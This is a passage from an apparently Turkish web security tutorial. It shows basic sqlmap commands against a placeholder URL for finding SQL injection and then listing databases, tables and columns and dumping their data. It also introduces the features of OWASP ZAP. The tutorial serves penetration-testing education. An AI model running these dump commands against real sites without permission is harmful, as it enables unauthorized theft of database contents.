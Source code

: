 ✅ Güvenlik Duvarlarını (WAF) Bypass Etmek İçin Tamper Scriptlerini Destekler

✅ Cookies, HTTP Header, User-Agent Üzerinden Test Yapabilir

SQLmap Nasıl Kullanılır?

Temel Kullanım:

```bash
sqlmap -u "https://example.com/page?id=1"
```
Bu komut, belirtilen URL’de SQL Injection olup olmadığını kontrol eder.

Daha Gelişmiş Komutlar:

## Veritabanı Adlarını Listeleme:


```bash
sqlmap -u "https://example.com/page?id=1" --dbs
```
## Tabloları Listeleme:

```bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi --tables
```
## Kolonları Listeleme:

```bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi -T tablo_adi --columns
```
## Kritik Verileri Çekme:

```bash
sqlmap -u "https://example.com/page?id=1" -D veritabani_adi -T tablo_adi -C kolon_adi --dump
```


OWASP ZAP Nedir? Nasıl Kullanılır?

## OWASP ZAP Nedir?

OWASP ZAP (Zed Attack Proxy), web uygulamalarında güvenlik açıklarını taramak ve analiz etmek için kullanılan açık kaynaklı bir sızma testi aracıdır. OWASP tarafından geliştirilmiş olup, özellikle web güvenliği testleri yapan kişiler ve bug bounty avcıları için kullanışlıdır.

ZAP’ın temel özellikleri şunlardır:

✅ Otomatik güvenlik taraması (SQL Injection, XSS, CSRF gibi açıkları bulma)

✅ Proxy sunucu olarak çalışma (HTTP ve HTTPS trafiğini yakalayıp değiştirme)

✅ Manuel güvenlik testleri için araçlar (Fuzzer, Active Scan, Spidering)

✅ API test desteği (WebSocket ve REST API taramaları yapabilir)

✅ Otomatik raporlama
